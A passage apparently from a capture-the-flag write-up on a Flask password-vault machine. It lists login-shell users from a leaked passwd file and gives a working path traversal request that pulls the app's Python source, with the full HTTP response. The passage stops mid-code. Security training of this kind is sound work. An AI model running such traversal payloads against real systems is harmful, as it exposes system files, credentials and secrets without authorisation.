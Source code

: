 So this actually works, and we can see the following 'real' users who have a valid login shell:

```bash
grep -vE "nologin|false" users.txt 

root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
corum:x:1000:1000:corum:/home/corum:/bin/bash
runner:x:1001:1001::/app/app-testing/:/bin/sh
edwards:x:1002:1002::/home/edwards:/bin/bash
dev_admin:x:1003:1003::/home/dev_admin:/bin/bash
_laurel:x:999:999::/var/log/laurel:/
```

So it looks like we're dealing with an Ubuntu machine running a Python Flask based web app on nginx/1.18.  The app is a basic password manager/vault that let's us download a CSV of our stored credentials.  If the file doesn't exist, we get a valuable 
stack trace containing a secret in a javascript `<script>` tag.

We can also do path traversal to give us local file inclusion.

The stack trace above refers to `/app/app/superpass/views/vault_view.py`.  We can retrieve this to see how the app works, by calling `GET /download?fn=../../../app/app/superpass/views/vault_views.py HTTP/1.1`:

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 19 Mar 2023 06:05:20 GMT
Content-Type: text/csv; charset=utf-8
Content-Length: 2987
Connection: close
Content-Disposition: attachment; filename=superpass_export.csv
Vary: Cookie

import flask
import subprocess
from flask_login import login_required, current_user
from superpass.infrastructure.view_modifiers import response
import superpass.services.password_service as password_service
from superpass.services.utility_service import get_random
from superpass.data.password import Password


blueprint = flask.Blueprint('vault', __name__, template_folder='templates')


@blueprint.route('/vault')
@response(template_file='vault/vault.html')
@login_required
def vault():
    passwords = password_service.get_passwords_for_user(current_user.id)
    print(f'{passwords=}')
    return {'passwords': passwords}


@blueprint.get('/vault/add_row')
@response(template_file='vault/partials/password_row_editable.html')
@login_required
def add_row():
    p = Password()
    p.password = get_random(20)
    return {"p": p}


@blueprint.get('/vault/edit_row/<id>')
```
